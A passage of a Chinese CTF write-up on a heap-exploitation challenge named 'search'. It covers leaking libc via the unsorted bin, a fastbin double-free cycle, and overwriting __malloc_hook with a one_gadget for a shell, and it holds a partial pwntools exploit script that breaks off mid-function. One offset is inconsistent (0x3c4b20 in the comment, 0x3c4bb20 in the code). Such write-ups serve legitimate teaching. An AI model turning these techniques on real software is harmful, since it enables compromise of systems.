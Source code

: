 使用上述特性，结合如下公式：

```
main_arena_addr = unsortedbin_addr - unsortedbin_offset_main_arena（88）
libc_base = main_arena_addr - main_arena_offset(0x3c4b20)
```

即可得到libc地址。至于怎么得到各地址之间的偏移关系，之后再看看。

1、所以得到偏移的libc地址的步骤：申请unsort chunk、search第一次，free掉它，改变指针值、search第二次，打印出内容。

开启了RELRO，所以采用malloc_hook的方式拿shell。这需要我们构造fake_chunk。

2、首先构造fastbin循环链表：连续申请3个fast_chunk（注意与fake_chunk的大小一致）、按之前的思路，留一个标志位（相同，才能连续释放）、连续释放（由于释放后其在fastbin中，所以fd跟bk的值不为零，可以跳过验证，**并且，释放跟生成的指针顺序是相反的**）、释放b，构造循环链表。

根据代码可得循环链表的顺序为：arena_main->b->a->b->a。

3、构造fake_chunk：构造方法在上文。构造之后申请fd为fake_chunk的块，将fake_chunk加入fastbin；申请a、b chunk，这时候arena_main指向fake_chunk；最后一步：向fake_chunk中的malloc_hook位置上写上one_gadget（也是系统调用）就可以成功get shell。

```python
#coding=utf-8 
from pwn import*
import pwnlib
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
context(arch='i386',os='linux')

sh = process('./search')
#程序的main_arena到libc的基地址是固定的0x3c4b20
main_arena_offset = 0x3c4bb20
log.info('PID: ' + str(proc.pidof(sh)[0]))


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4
    offset += 4
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset

#计算main_arena与unsortedbin的偏移量
unsortedbin_offset_main_arena = offset_bin_main_arena(0)

def index_sentence(s):
    sh.recvuntil("3: Quit\n")
    sh.sendline('2')
    sh.recvuntil('Enter the sentence size:\n')
    sh.sendline(str(len(s)))
    sh.send(s)

def search_word(word):
    sh.recvuntil("3: Quit\n")
    sh.sendline('1')
    sh.recvuntil("Enter the word size:\n")
    sh.sendline(str(len(word)))
    sh.send(word)

#获取libc地址
def leak_libc():
    #构造一个任意大小的smallbin，在free后会成为unsorted_bin
    #其后的'b'是标志位，用于找到句子，注意空格以区分单词
    smallbin_sentence = 'a'*0x85 + ' b '
    index_sentence(smallbin_sentence)
```